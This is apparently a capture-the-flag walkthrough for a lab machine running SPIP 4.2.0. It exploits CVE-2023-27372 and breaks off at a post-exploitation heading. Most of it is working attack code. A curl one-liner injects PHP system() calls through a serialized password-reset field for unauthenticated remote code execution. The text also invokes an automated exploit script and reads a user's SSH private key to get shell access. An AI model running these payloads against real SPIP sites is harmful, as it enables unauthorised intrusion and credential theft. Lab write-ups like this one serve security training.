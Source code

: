 ### ⚠️ Vulnerability Details
- **CVE:** `CVE-2023-27372`
- **Target:** SPIP v4.2.0 - Remote Code Execution (Unauthenticated)
- **Type:** Deserialization attack via password reset functionality

### 💥 Exploit Method

#### 🔧 Manual Testing with cURL
1. **🎯 Extract CSRF token:**
```bash
curl -s http://publisher.thm/spip/spip.php?page=spip_pass | grep -i formulaire_action_sign | cut -d "'" -f 2
```

2. **🚀 One-liner RCE command:**
```bash
if echo $SHELL | grep zsh > /dev/null ; then read 'cmd?Enter a command for RCE: '; else read -p 'Enter a command for RCE: ' cmd; fi \
&& php_rce="<?php echo system('echo; echo; echo; ${cmd}; echo; echo; echo;'); ?>" \
&& cmd_length=$(echo $php_rce | tr -d '\n' | wc -m) \
&& curl -s -X POST http://publisher.thm/spip/spip.php?page=spip_pass \
-d "page=spip_pass" \
-d "formulaire_action=oubli" \
-d "formulaire_action_args=$(curl -s http://publisher.thm/spip/spip.php?page=spip_pass | grep -i formulaire_action_sign | cut -d "'" -f 2)" \
-d "oubli=s:${cmd_length}:\"${php_rce}\";"
```

#### 🤖 Using Automated Exploit Script
```bash
# Install missing dependency first
pip3 install alive-progress

# Run the exploit
python CVE-2023-27372.py -u http://publisher.thm/spip/ -v -o cvereport.txt
```

### 🐚 Getting Shell Access
1. **🔍 Discover SSH key via RCE:**
```bash
# Command to run via RCE
cat /home/think/.ssh/id_rsa
```

2. **💾 Save and use the private key:**
```bash
touch id_rsa
chmod 600 id_rsa
# Paste the discovered private key content
ssh -i id_rsa think@publisher.thm
```

## 🔎 Post-Exploitation Enumeration
